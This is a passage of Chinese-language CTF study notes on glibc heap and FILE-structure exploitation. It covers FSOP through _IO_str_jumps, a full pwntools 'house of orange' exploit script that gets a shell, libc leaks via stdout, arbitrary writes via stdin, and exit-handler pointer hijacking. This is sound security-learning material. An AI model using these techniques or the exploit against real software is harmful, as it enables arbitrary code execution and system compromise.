     JUMP_INIT(imbue, _IO_default_imbue)
   };
   ```

   可以发现，这里有一句 `JUMP_INIT(finish, _IO_str_finish)` 
   
   继续对源码分析：
   
   ```c
   void _IO_str_finish (_IO_FILE *fp, int dummy)
   {
     if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
       (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base); //执行函数
     fp->_IO_buf_base = NULL;
     _IO_default_finish (fp, 0);
   }
   struct _IO_str_fields
   {
     _IO_alloc_type _allocate_buffer;
     _IO_free_type _free_buffer;
   };
   typedef struct _IO_strfile_
   {
     struct _IO_streambuf _sbf;
     struct _IO_str_fields _s;
   } _IO_strfile;
   ```
   
   可以看到，这里直接把 `fp->_s._free_buffer` 的内容当做函数地址来直接调用
   
   当然，我们仍然需要绕过2.23中的 对于mode等的检查，之后把vtable劫持为 `_IO_str_jumps-0x8` ，这里相当劫持了 `_IO_OVERFLOW` 成为 `_IO_str_finish` 这个vtable可以绕过检查，因为他在vtable的地址段之中
   
   由于libc中不存在该函数，可以利用如下的函数进行定位：
   
   ```python
   # libc.address = libc_base
   def get_IO_str_jumps():
       IO_file_jumps_addr = libc.sym['_IO_file_jumps']
       IO_str_underflow_addr = libc.sym['_IO_str_underflow']
       for ref in libc.search(p64(IO_str_underflow_addr-libc.address)):
           possible_IO_str_jumps_addr = ref - 0x20
           if possible_IO_str_jumps_addr > IO_file_jumps_addr:
               return possible_IO_str_jumps_addr
   ```
   
   于是可以构造如下的chunk，来进行getshell
   
   ```c
   ._chain => chunk_addr
   chunk_addr
   {
     file = {
       _flags = 0x0,
       _IO_read_ptr = 0x0,
       _IO_read_end = 0x0,
       _IO_read_base = 0x0,
       _IO_write_base = 0x0,
       _IO_write_ptr = 0x1,
       _IO_write_end = 0x0,
       _IO_buf_base = bin_sh_addr,
         ...
         _mode = 0x0, //一般不用特意设置
         _unused2 = '\000' <repeats 19 times>
     },
     vtable = _IO_str_jumps-8 //chunk_addr + 0xd8 ~ +0xe0
   }
   +0xe0 ~ +0xe8 : 0x0
   +0xe8 ~ +0xf0 : system_addr / one_gadget //fp->_s._free_buffer
   ```
   
2. 利用 __IO_str_overflow()_ 的手段：

   源码如下：

   ```c
   int
   _IO_str_overflow (FILE *fp, int c)
   {
     int flush_only = c == EOF;
     size_t pos;
     if (fp->_flags & _IO_NO_WRITES)
         return flush_only ? 0 : EOF;
     if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
       {
         fp->_flags |= _IO_CURRENTLY_PUTTING;
         fp->_IO_write_ptr = fp->_IO_read_ptr;
         fp->_IO_read_ptr = fp->_IO_read_end;
       }
     pos = fp->_IO_write_ptr - fp->_IO_write_base;
     if (pos >= (size_t) (_IO_blen (fp) + flush_only))
       {
         if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
   	return EOF;
         else
   	{
   	  char *new_buf;
   	  char *old_buf = fp->_IO_buf_base;
   	  size_t old_blen = _IO_blen (fp);
   	  size_t new_size = 2 * old_blen + 100;
   	  if (new_size < old_blen)
   	    return EOF;
   	  new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
   	  if (new_buf == NULL)
   	    {
   	      /*	  __ferror(fp) = 1; */
   	      return EOF;
   	    }
   	  if (old_buf)
   	    {
   	      memcpy (new_buf, old_buf, old_blen);
   	      free (old_buf);
   	      /* Make sure _IO_setb won't try to delete _IO_buf_base. */
   	      fp->_IO_buf_base = NULL;
   	    }
   	  memset (new_buf + old_blen, '\0', new_size - old_blen);
   
   	  _IO_setb (fp, new_buf, new_buf + new_size, 1);
   	  fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
   	  fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
   	  fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
   	  fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);
   
   	  fp->_IO_write_base = new_buf;
   	  fp->_IO_write_end = fp->_IO_buf_end;
   	}
       }
   
     if (!flush_only)
       *fp->_IO_write_ptr++ = (unsigned char) c;
     if (fp->_IO_write_ptr > fp->_IO_read_end)
       fp->_IO_read_end = fp->_IO_write_ptr;
     return c;
   }
   libc_hidden_def (_IO_str_overflow)
   ```

   类似与第一种方法，我们看到源码中使用了 `new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);` 那我们就劫持他为sysytem的地址，把newsize改为/bin/sh\x00即可

   又有

   ```c
   #define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)
   char *old_buf = fp->_IO_buf_base;
   size_t old_blen = _IO_blen (fp);
   size_t new_size = 2 * old_blen + 100;
   ```

   可以得到，我们只需要进行如下设置即可：

   ```c
   _IO_buf_base = 0
   _IO_buf_end = (bin_sh_addr - 100) // 2
   ```

   可以进行如下布局：

   ```c
   ._chain => chunk_addr
   chunk_addr
   {
     file = {
       _flags = 0x0,
       _IO_read_ptr = 0x0,
       _IO_read_end = 0x0,
       _IO_read_base = 0x0,
       _IO_write_base = 0x0,
       _IO_write_ptr = 0x1,
       _IO_write_end = 0x0,
       _IO_buf_base = 0x0,
       _IO_buf_end = (bin_sh_addr - 100) // 2,
         ...
         _mode = 0x0, //一般不用特意设置
         _unused2 = '\000' <repeats 19 times>
     },
     vtable = _IO_str_jumps //chunk_addr + 0xd8 ~ +0xe0
   }
   +0xe0 ~ +0xe8 : system_addr / one_gadget //fp->_s._allocate_buffer
   ```

   在libc2.28之后，使用了malloc和free替代，FSOP也就从此失效了

#### house of orange

##### pre：get a freed chunk

house of orange主要在没有free的情况下通过 *uaf* 修改topchunk的的size，这样子分配chunk的时候，分配一个大于topchunk的chunk，就会把topchunk放到unsortedbin中，然后我们就获得了一个可以利用的chunk

##### FSOP部分

利用 *unsortedbinattack* 修改*IO_list_all* 为 *main_arena+88* ，然后很巧的是，此时 `_chain` 字段正好为 *smallbin* 的开头

##### WP&&exp

```python
from pwn import*
r=process("./orange")

def add(size, content, price, color):
	r.recvuntil("Your choice : ")
	r.sendline('1')
	r.recvuntil("Length of name :")
	r.sendline(str(size))
	r.recvuntil("Name :")
	r.send(content)
	r.recvuntil("Price of Orange:")
	r.sendline(str(price))
	r.recvuntil("Color of Orange:")	#1-7
	r.sendline(str(color))

def show():
	r.recvuntil("Your choice : ")
	r.sendline('2')

def edit(size, content, price, color):
	r.recvuntil("Your choice : ")
	r.sendline('3')
	r.recvuntil("Length of name :")
	r.sendline(str(size))
	r.recvuntil("Name:")
	r.send(content)
	r.recvuntil("Price of Orange:")
	r.sendline(str(price))
	r.recvuntil("Color of Orange:")	
	r.sendline(str(color))

def dbg():
	gdb.attach(r)
	pause()

add(0x30,b'aaaa',0x1234,0xDDAA)
payload=b'a'*0x30+p64(0)+p64(0x21)+p64(0x0000ddaa00001234)+p64(0)+p64(0)+p64(0xf81)
edit(len(payload),payload,0x1234,0xDDAA)
add(0x1000,b'bbbb',0x1234,0xDDAA)
dbg()
add(0x400,b'aaaaaaaa',0x1234,0xDDAA)
context.log_level='debug'
show()

libc_base=u64(r.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x3c5188
system=libc_base+0x453a0
_IO_list_all=libc_base+0x3c5520

#print(f"libc_base is {libc_base},system is {system},_IO_list_all is {_IO-list_all}")

edit(0x10,b'b'*0x10,0x1234,0xDDAA)
show()
r.recvuntil('b'*0x10)
heap = u64(r.recvuntil('\n').strip().ljust(8, '\x00'))
heap_base = heap - 0xE0

payload = 'a' * 0x400 + p64(0) + p64(0x21) + p32(666) + p32(0xddaa) + p64(0)
fake_file = '/bin/sh\x00'+p64(0x61)#to small bin
fake_file += p64(0)+p64(_IO_list_all-0x10)
fake_file += p64(0) + p64(1)#_IO_write_base < _IO_write_ptr
fake_file = fake_file.ljust(0xc0,'\x00')
fake_file += p64(0) * 3
fake_file += p64(heap_base+0x5E8) #vtable ptr
fake_file += p64(0) * 2
fake_file += p64(system)
payload += fake_file
edit(len(payload), payload, 666, 2)
#pause()
r.recvuntil("Your choice : ")
r.sendline('1')

r.interactive()
```

刚开始是对这里chunk分配有些迷惑的，不过后来看了一篇文章，关于lastreminder有所想法 [last reminder](https://blog.csdn.net/qq_41453285/article/details/97803141)

#### 利用_\_IO\_2\_1_stdout_ 泄露libc

有些时候题目中没有给出我们输出程序，但是我们需要泄露libc等内容，这时候就要利用io来泄露


在程序运行时，会自动开启三个io流，分别是 *stdin，stdout，stderr* ,文件描述符分别为0,1,2

这里再复习一下io的结构体

```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
```

对于vtable有

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

##### _\_flag_ 规则

_flag_ 的高两位是由libc确定，低位由文件性质决定



##### puts函数的执行流程

_\_IO_puts_->__IO_new_file_xsputn_



_\_IO_sputn_ 是一个宏，指向了 _\_IO_new_file_xsputn_

```c
size_t
_IO_new_file_xsputn (FILE *f, const void *data, size_t n)
{
  const char *s = (const char *) data;
  size_t to_do = n;
  int must_flush = 0;
  size_t count = 0;

  if (n <= 0)
    return 0;
  /* This is an optimized implementation.
     If the amount to be written straddles a block boundary
     (or the filebuf is unbuffered), use sys_write directly. */

  /* First figure out how much space is available in the buffer. */
  if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
    {
      count = f->_IO_buf_end - f->_IO_write_ptr;
      if (count >= n)//缓冲区长度大于数据长度
	{
	  const char *p;
	  for (p = s + n; p > s; )
	    {
	      if (*--p == '\n')//寻找数据的结尾，并更新为count
		{
		  count = p - s + 1;
		  must_flush = 1;
		  break;
		}
	    }
	}
    }
  else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr; /* Space available. */

  /* Then fill the buffer. */
  if (count > 0)
    {
      if (count > to_do)
	count = to_do;
      f->_IO_write_ptr = __mempcpy (f->_IO_write_ptr, s, count);
      s += count;
      to_do -= count;//to_do = 0
    }
  if (to_do + must_flush > 0)//刷新缓冲区
    {
      size_t block_size, do_write;
      /* Next flush the (full) buffer. */
      if (_IO_OVERFLOW (f, EOF) == EOF)
	/* If nothing else has to be written we must not signal the
	   caller that everything has been written.  */
	return to_do == 0 ? EOF : n - to_do;

      /* Try to maintain alignment: write a whole number of blocks.  */
      block_size = f->_IO_buf_end - f->_IO_buf_base;
      do_write = to_do - (block_size >= 128 ? to_do % block_size : 0);

      if (do_write)
	{
	  count = new_do_write (f, s, do_write);
	  to_do -= count;
	  if (count < do_write)
	    return n - to_do;
	}

      /* Now write out the remainder.  Normally, this will fit in the
	 buffer, but it's somewhat messier for line-buffered files,
	 so we let _IO_default_xsputn handle the general case. */
      if (to_do)
	to_do -= _IO_default_xsputn (f, s+do_write, to_do);
    }
  return n - to_do;
}
libc_hidden_ver (_IO_new_file_xsputn, _IO_file_xsputn)
```

真羡慕大爹们能读下去源码，我只能看大爹们分析好的，上面的源码大概实现了下面几个步骤

1. 判断缓冲区还有多少空间，这里通过 `f->_IO_buf_end - f->_IO_write_ptr` 实现
2. 判断count与n的大小，若是缓冲区有剩余，则把count更新为数据的长度，同时设定 `must_flush` 
3. 如果缓冲区有数据（即  count>0） ,判断count与to_do的长度，如果长度足够，就更新count为to_do的长度，并设置to_do为0
4. 若缓冲区有剩余/缓冲区已经满，就调用 _\_IO_OVERFLOW_ 刷新缓冲区
5. do_write

现在我们已经进入到了 _\_IO_OVERFLOW_ 了，之后会调用 _\_IO_new_fileoverflow_ 

```c
int
_IO_new_file_overflow (FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
    {
      /* Allocate a buffer if needed. */
      if (f->_IO_write_base == NULL)
	{
	  _IO_doallocbuf (f);
	  _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	}
      /* Otherwise must be currently reading.
	 If _IO_read_ptr (and hence also _IO_read_end) is at the buffer end,
	 logically slide the buffer forwards one block (by setting the
	 read pointers to all point at the beginning of the block).  This
	 makes room for subsequent output.
	 Otherwise, set the read pointers to _IO_read_end (leaving that
	 alone, so it can continue to correspond to the external position). */
      if (__glibc_unlikely (_IO_in_backup (f)))
	{
	  size_t nbackup = f->_IO_read_end - f->_IO_read_ptr;
	  _IO_free_backup_area (f);
	  f->_IO_read_base -= MIN (nbackup,
				   f->_IO_read_base - f->_IO_buf_base);
	  f->_IO_read_ptr = f->_IO_read_base;
	}

      if (f->_IO_read_ptr == f->_IO_buf_end)
	f->_IO_read_end = f->_IO_read_ptr = f->_IO_buf_base;
      f->_IO_write_ptr = f->_IO_read_ptr;
      f->_IO_write_base = f->_IO_write_ptr;
      f->_IO_write_end = f->_IO_buf_end;
      f->_IO_read_base = f->_IO_read_ptr = f->_IO_read_end;

      f->_flags |= _IO_CURRENTLY_PUTTING;
      if (f->_mode <= 0 && f->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
	f->_IO_write_end = f->_IO_write_ptr;
    }
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,
			 f->_IO_write_ptr - f->_IO_write_base);
  if (f->_IO_write_ptr == f->_IO_buf_end ) /* Buffer is really full */
    if (_IO_do_flush (f) == EOF)
      return EOF;
  *f->_IO_write_ptr++ = ch;
  if ((f->_flags & _IO_UNBUFFERED)
      || ((f->_flags & _IO_LINE_BUF) && ch == '\n'))
    if (_IO_do_write (f, f->_IO_write_base,
		      f->_IO_write_ptr - f->_IO_write_base) == EOF)
      return EOF;
  return (unsigned char) ch;
}
libc_hidden_ver (_IO_new_file_overflow, _IO_file_overflow)

```

我们最终的目的是利用 _\_IO_do_write_ 那么我们就要一步步的绕过判断

```c
if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
{
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
}
```

首先是这里，对 `f->_flags & _IO_NO_WRITES` 若为真，就会报错，所以有如下关系

```c
#define _IO_MAGIC 0xFBAD0000
#define _IO_NO_WRITES 8
_flags & _IO_NO_WRITES = 0 
_flags = 0xfbad0000
```

接下来看第二个if

```c
 if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
```

这里检测缓冲区是否为空，如果是空就进行初始化，如果初始化那我们之前的布局就没效果了，所以为了不进入这里，我们需要

```c
#define _IO_MAGIC 0xFBAD0000
#define _IO_CURRENTLY_PUTTING 0x800
f->_flags & _IO_CURRENTLY_PUTTING = 1
_flags = 0xfbad0800
```

这样子我们就进入了 __IO_do_write_ 

```c
int
_IO_new_do_write (FILE *fp, const char *data, size_t to_do)
{
  return (to_do == 0
	  || (size_t) new_do_write (fp, data, to_do) == to_do) ? 0 : EOF;
}
```

（终于快结束了，好痛苦啊）

这里就没什么说的了，直接进入了 _new_do_write_ 

```c
static size_t
new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;
  if (fp->_flags & _IO_IS_APPENDING)
    /* On a system without a proper O_APPEND implementation,
       you would need to sys_seek(0, SEEK_END) here, but is
       not needed nor desirable for Unix- or Posix-like systems.
       Instead, just indicate that offset (before and after) is
       unpredictable. */
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      off64_t new_pos
	= _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
	return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do);
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0
		       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
		       ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```

这里我们选择进入if分支，因为else if中很多是不可控的，不太稳定，若进入if只需要

```c
#define _IO_MAGIC 0xFBAD0000
#define _IO_IS_APPENDING 0x1000
fp->_flags & _IO_IS_APPENDING = 1
_flags = 0xfbad1000
```

综上，我们想要通过io来泄露libc只需要

```c
_flag=0xfbad1000
/*设置_IO_write_base指向想要泄露的位置，_IO_write_ptr指向泄露结束的地址(不需要一定设置指向结尾，程序中自带地址足够泄露libc*/
/*一般来说直接覆盖_IO_write_base的最低位是\x00就可以了*/
```

#### 利用_\_IO_2_1_stdin_ 任意地址写

既然有stdout让我们任意地址读，那同样的也有任意地址写，继续来看源码

```c
size_t
_IO_file_xsgetn (FILE *fp, void *data, size_t n)
{
  size_t want, have;
  ssize_t count;
  char *s = data;

  want = n;

  if (fp->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_IO_save_base != NULL)
	{
	  free (fp->_IO_save_base);
	  fp->_flags &= ~_IO_IN_BACKUP;
	}
      _IO_doallocbuf (fp);
    }

  while (want > 0)
    {
      have = fp->_IO_read_end - fp->_IO_read_ptr;
      if (want <= have)
	{
	  memcpy (s, fp->_IO_read_ptr, want);
	  fp->_IO_read_ptr += want;
	  want = 0;
	}
      else
	{
	  if (have > 0)
	    {
	      s = __mempcpy (s, fp->_IO_read_ptr, have);
	      want -= have;
	      fp->_IO_read_ptr += have;
	    }

	  /* Check for backup and repeat */
	  if (_IO_in_backup (fp))
	    {
	      _IO_switch_to_main_get_area (fp);
	      continue;
	    }

	  /* If we now want less than a buffer, underflow and repeat
	     the copy.  Otherwise, _IO_SYSREAD directly to
	     the user buffer. */
	  if (fp->_IO_buf_base
	      && want < (size_t) (fp->_IO_buf_end - fp->_IO_buf_base))
	    {
	      if (__underflow (fp) == EOF)
		break;

	      continue;
	    }

	  /* These must be set before the sysread as we might longjmp out
	     waiting for input. */
	  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
	  _IO_setp (fp, fp->_IO_buf_base, fp->_IO_buf_base);

	  /* Try to maintain alignment: read a whole number of blocks.  */
	  count = want;
	  if (fp->_IO_buf_base)
	    {
	      size_t block_size = fp->_IO_buf_end - fp->_IO_buf_base;
	      if (block_size >= 128)
		count -= want % block_size;
	    }

	  count = _IO_SYSREAD (fp, s, count);
	  if (count <= 0)
	    {
	      if (count == 0)
		fp->_flags |= _IO_EOF_SEEN;
	      else
		fp->_flags |= _IO_ERR_SEEN;

	      break;
	    }

	  s += count;
	  want -= count;
	  if (fp->_offset != _IO_pos_BAD)
	    _IO_pos_adjust (fp->_offset, count);
	}
    }

  return n - want;
}
libc_hidden_def (_IO_file_xsgetn)
```

上面的源码做了下面这些事情

1. 判断缓冲区是否为空，若为空，调用 _IO_doallocbuf_ 来初始化缓冲区，若是初始化缓冲区了那我不是直接g了，所以我们不能让他初始化
2. have来判断缓冲区是否有数据，如果有数据就把他给输出区域，很显然我们是不想让这样子的，这里我们一般构建 `fp->_IO_read_end = fp->_IO_read_ptr`
3. 当缓冲区不能满足需求时候，就会进入 `__underflow` 函数来读取数据

```c
int
_IO_new_file_underflow (FILE *fp)
{
  ssize_t count;

  /* C99 requires EOF to be "sticky".  */
  if (fp->_flags & _IO_EOF_SEEN)
    return EOF;

  if (fp->_flags & _IO_NO_READS)
    {
      fp->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  if (fp->_IO_read_ptr < fp->_IO_read_end)
    return *(unsigned char *) fp->_IO_read_ptr;

  if (fp->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_IO_save_base != NULL)
	{
	  free (fp->_IO_save_base);
	  fp->_flags &= ~_IO_IN_BACKUP;
	}
      _IO_doallocbuf (fp);
    }

  /* FIXME This can/should be moved to genops ?? */
  if (fp->_flags & (_IO_LINE_BUF|_IO_UNBUFFERED))
    {
      /* We used to flush all line-buffered stream.  This really isn't
	 required by any standard.  My recollection is that
	 traditional Unix systems did this for stdout.  stderr better
	 not be line buffered.  So we do just that here
	 explicitly.  --drepper */
      _IO_acquire_lock (stdout);

      if ((stdout->_flags & (_IO_LINKED | _IO_NO_WRITES | _IO_LINE_BUF))
	  == (_IO_LINKED | _IO_LINE_BUF))
	_IO_OVERFLOW (stdout, EOF);

      _IO_release_lock (stdout);
    }

  _IO_switch_to_get_mode (fp);

  /* This is very tricky. We have to adjust those
     pointers before we call _IO_SYSREAD () since
     we may longjump () out while waiting for
     input. Those pointers may be screwed up. H.J. */
  fp->_IO_read_base = fp->_IO_read_ptr = fp->_IO_buf_base;
  fp->_IO_read_end = fp->_IO_buf_base;
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_write_end
    = fp->_IO_buf_base;

  count = _IO_SYSREAD (fp, fp->_IO_buf_base,
		       fp->_IO_buf_end - fp->_IO_buf_base);
  if (count <= 0)
    {
      if (count == 0)
	fp->_flags |= _IO_EOF_SEEN;
      else
	fp->_flags |= _IO_ERR_SEEN, count = 0;
  }
  fp->_IO_read_end += count;
  if (count == 0)
    {
      /* If a stream is read to EOF, the calling application may switch active
	 handles.  As a result, our offset cache would no longer be valid, so
	 unset it.  */
      fp->_offset = _IO_pos_BAD;
      return EOF;
    }
  if (fp->_offset != _IO_pos_BAD)
    _IO_pos_adjust (fp->_offset, count);
  return *(unsigned char *) fp->_IO_read_ptr;
}
```

这里做了下面几件事

1. 判断 `fp->_IO_read_ptr < fp->_IO_read_end` 是否成立
2. 判断 `_flag` 是否包括 `_IO_NO_READS` 这个在宏定义中值为4，所以我们不能包含4
3. 最终调用 `_IO_SYSREAD` 来进行输出。因此要想利用 `stdin` 输入缓冲区需设置FILE结构体中 `_IO_buf_base` 为 `write_start` ， `_IO_buf_end`为`write_end` 。同时也需将结构体中的`fp->_fileno`设置为0，最终调用 `read (fp->_fileno, buf, size))` 读取数据。

所以，为了完成stdin任意地址写，我们要做下面的事情

```python
#设置_IO_read_end等于_IO_read_ptr。
#设置_flag &~ _IO_NO_READS即_flag &~ 0x4。
#设置_fileno为0。
#设置_IO_buf_base为write_start，_IO_buf_end为write_end；且使得_IO_buf_end-_IO_buf_base大于fread要读的数据。
```

#### 劫持exit_hook

严格来说，exit并不存在hook，这是一种类似于指针劫持的方法

我们继续看源码

```c
void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
libc_hidden_def (exit)
```

glibc特有的shit堆在shit上

```c
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();

  __libc_lock_lock (__exit_funcs_lock);

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (true)
    {
      struct exit_function_list *cur = *listp;

      if (cur == NULL)
	{
	  /* Exit processing complete.  We will not allow any more
	     atexit/on_exit registrations.  */
	  __exit_funcs_done = true;
	  break;
	}

      while (cur->idx > 0)
	{
	  struct exit_function *const f = &cur->fns[--cur->idx];
	  const uint64_t new_exitfn_called = __new_exitfn_called;

	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);
	      void *arg;

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
	      arg = f->func.on.arg;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      onfct (status, arg);
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      atfct ();
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    case ef_cxa:
	      /* To avoid dlclose/exit race calling cxafct twice (BZ 22180),
		 we must mark this function as ef_free.  */
	      f->flavor = ef_free;
	      cxafct = f->func.cxa.fn;
	      arg = f->func.cxa.arg;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      cxafct (arg, status);
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    }

	  if (__glibc_unlikely (new_exitfn_called != __new_exitfn_called))
	    /* The last exit function, or another thread, has registered
	       more exit functions.  Start the loop over.  */
            continue;
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  __libc_lock_unlock (__exit_funcs_lock);

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

这里有一些关键的跳转

```c
void (*atfct) (void);
void (*onfct) (int status, void *arg);
void (*cxafct) (void *arg, int status);
void *arg;
```

跟踪发现，调用dl_fini

源码如下

```c
#ifdef SHARED
  int do_audit = 0;
 again:
#endif
  for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
    {
      /* Protect against concurrent loads and unloads.  */
      __rtld_lock_lock_recursive (GL(dl_load_lock));

      unsigned int nloaded = GL(dl_ns)[ns]._ns_nloaded;
      /* No need to do anything for empty namespaces or those used for
	 auditing DSOs.  */
      if (nloaded == 0
#ifdef SHARED
	  || GL(dl_ns)[ns]._ns_loaded->l_auditing != do_audit
#endif
	  )
	__rtld_lock_unlock_recursive (GL(dl_load_lock));

```

发现两个关键的函数

```c
__rtld_lock_lock_recursive (GL(dl_load_lock));
__rtld_lock_unlock_recursive (GL(dl_load_lock));
```

存在  **_\_rtld_global_** 结构体

通过gdb **p _rtld_global**



如上，我们只需要劫持 _rtld\_global 结构体中的 `__rtld_lock_lock_recursive (GL(dl_load_lock));` `__rtld_lock_unlock_recursive (GL(dl_load_lock));`

即可，这里需要调整一下偏移

##### 总结exit调用流程

`exit()->__run_exit_handlers->_dl_fini->__rtld_lock_unlock_recursive`

同时，最后的函数在调用前会给rdi赋值，可以直接修改函数为 onegadget或者修改函数和其参数，也就是 `rtld_lock_default_unlock_recursive` 函数为 `system` ，并且改把  `_rtld_global._dl_load_lock.mutex的值改为 /bin/sh\x00 `